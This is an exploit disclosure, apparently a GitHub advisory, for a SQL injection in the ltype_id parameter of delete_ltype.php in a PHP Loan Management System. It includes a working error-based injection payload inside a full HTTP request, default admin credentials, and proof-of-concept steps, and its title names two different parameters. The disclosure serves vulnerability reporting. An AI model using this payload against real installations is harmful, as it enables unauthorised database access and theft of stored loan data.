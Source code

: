 ```yaml
---
typora-root-url: ./images
---
```


# Loan Management System - delete_ltype.php 'user_id' SQL inject

#### Exploit Title: Loan Management System - delete_ltype.php 'ltype_id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "delete_ltype.php/ltype_id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```php
GET /delete_ltype.php?ltype_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp&user= HTTP/1.1
Host: 192.168.67.11:8091
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.11:8091/loan_type.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bes3u5nf3elraj4jtmpnaoac0n
Connection: close

```

#### Proof of Concept

1、Log in to the system using the default password admin: admin

2、Add a piece of data on the 'Loan Type' page

![](/itype1.png)

3、Click 'delete' and grab the package, locate the file as 'delete_ltype.php '.Looking at the source code, it is found that the ltype_id field is directly brought into the SQL statement query without filtering

 ![](/itype2.png)

4、We can construct SQL statements to query the name of the database

payload:`http://xxxx/delete_ltype.php?ltype_id=1'%20AND%20GTID_SUBSET(CONCAT("data:",database()),8194)--%20GZSp&user= `

 ![](/itype3.png)

5、Testing using the sqlmap tool can also detect SQL injection vulnerabilities

![](/itype4.png)
